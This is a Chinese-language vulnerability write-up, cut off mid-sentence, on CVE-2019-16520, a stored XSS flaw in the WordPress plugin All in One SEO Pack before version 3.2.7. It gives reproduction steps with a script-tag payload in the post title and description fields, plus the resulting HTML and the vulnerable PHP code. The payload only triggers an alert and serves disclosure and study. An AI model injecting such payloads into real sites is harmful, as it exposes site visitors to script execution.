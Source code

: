 （CVE-2019-16520）WordPress Plugin - All in One SEO Pack 储存型xss
==================================================================

一、漏洞简介
------------

适用于WordPress的3.2.7之前的"all-in-one-seo-pack plugin"插件（aka All in
One SEO
Pack）易受存储XSS的影响，原因是该插件通过不安全的占位符替换提供的帖子的SEO特定描述的编码不正确。

二、漏洞影响
------------

wordpress \<= 3.2.6

三、复现过程
------------

### 1、利用过程

创建或编辑帖子时，可以设置以下值来显示漏洞：

    Title: test_aiosp_title&<>"';><script src='data:text/javascript,alert(1)'></script>a
    Description: test_aiosp_desc&<>"'; pt:%post_title% wp_title:%wp_title% bd:%blog_description% sd:%site_description% bt: %blog_title% st: %site_title% desc:%description%

当帖子被保存并以后访问时，将显示JavaScript警报弹出窗口。生成的HTML页面将包含以下代码

    <title>test_aiosp_title&<>"';<script src='data:text/javascript,alert(1)'></script> | XXXXXXX</title>

    <!-- All in One SEO Pack 3.2.5 by Michael Torbert of Semper Fi Web Design[197,235] -->
    <meta name="description"  content="test_aiosp_desc&"'; pt:test_aiosp_title&<>"';<script src='data:text/javascript,alert(1)'></script> wp_title:test_aiosp bd: sd: bt: XXXXXXX st: XXXXXXX desc:%description%" />

### 2、详细分析

该插件将几个字段添加到可以创建或编辑帖子的页面上。这样可以为每个帖子设置自定义标题和描述。此处提供的信息将插入meta到帖子页面上的相应-tags中。在将字段的值插入页面的HTML中之前，先对这些字段的值进行转义。

但是，在描述字段中，可以插入占位符，这些占位符在输出前已被某些值替换。也可以为前面提到的标题字段设置一个占位符。相关代码可以在
aioseop\_class.php第4546-4548行中找到：

    if ( false !== strpos( $description, '%post_title%', 0 ) ) {
        $description = str_replace( '%post_title%', $this->get_aioseop_title( $post, false ), $description );
    }

当攻击者在标题字段中设置有效负载并在描述字段中为标题字段的值提供占位符时，标题字段的原始值将被插入描述中。此后该描述未经过清理或编码。这使攻击者可以突破meta-tag属性并插入任意HTML和J
